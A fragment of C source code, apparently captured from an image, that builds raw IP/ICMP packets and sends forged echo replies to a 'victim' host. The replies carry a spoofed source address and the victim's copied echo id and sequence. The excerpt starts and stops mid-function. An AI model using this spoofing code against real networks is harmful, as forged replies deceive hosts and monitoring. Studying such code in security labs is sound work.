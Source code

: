 ```
    }
     
    //allow socket to send datagrams to broadcast addresses
    if (setsockopt (sockfd, SOL_SOCKET, SO_BROADCAST, (const char*)&on, sizeof (on)) == -1) 
    {
        perror("setsockopt");
        return;
    }   
     
    //Calculate total packet size
    int packet_size = sizeof (struct iphdr) + sizeof (struct icmphdr) + payload_size;
    char *packet = (char *) malloc (packet_size);
                    
    if (!packet) 
    {
        perror("out of memory");
        close(sockfd);
        return;
    }
     
    //ip header
    struct iphdr *ip = (struct iphdr *) packet;
    struct icmphdr *icmp = (struct icmphdr *) (packet + sizeof (struct iphdr));
     
    //zero out the packet buffer
    memset (packet, 0, packet_size);
 
    ip->version = 4;
    ip->ihl = 5;
    ip->tos = 0;
    ip->tot_len = htons (packet_size);
    ip->id = rand ();
    ip->frag_off = 0;
    ip->ttl = 255;
    ip->protocol = IPPROTO_ICMP;
    ip->saddr = victim_ip->ip_dst.s_addr;
    ip->daddr = victim_ip->ip_src.s_addr;
    //ip->check = in_cksum ((u16 *) ip, sizeof (struct iphdr));
 
    icmp->type = ICMP_ECHOREPLY;
    icmp->code = 0;
    icmp->un.echo.sequence = victim_icmp->un.echo.sequence;
    icmp->un.echo.id = victim_icmp->un.echo.id;
    //checksum
    icmp->checksum = 0;
     
    struct sockaddr_in servaddr;
    servaddr.sin_family = AF_INET;
    servaddr.sin_addr.s_addr = victim_ip->ip_src.s_addr;
    memset(&servaddr.sin_zero, 0, sizeof (servaddr.sin_zero));
 
    
        memset(packet + sizeof(struct iphdr) + sizeof(struct icmphdr), rand() % 255, payload_size);
         
        //recalculate the icmp header checksum since we are filling the payload with random characters everytime
        icmp->checksum = 0;
        icmp->checksum = in_cksum((unsigned short *)icmp, sizeof(struct icmphdr) + payload_size);
         
        if ( (sent_size = sendto(sockfd, packet, packet_size, 0, (struct sockaddr*) &servaddr, sizeof (servaddr))) < 1) 
        {
            perror("send failed\n");
```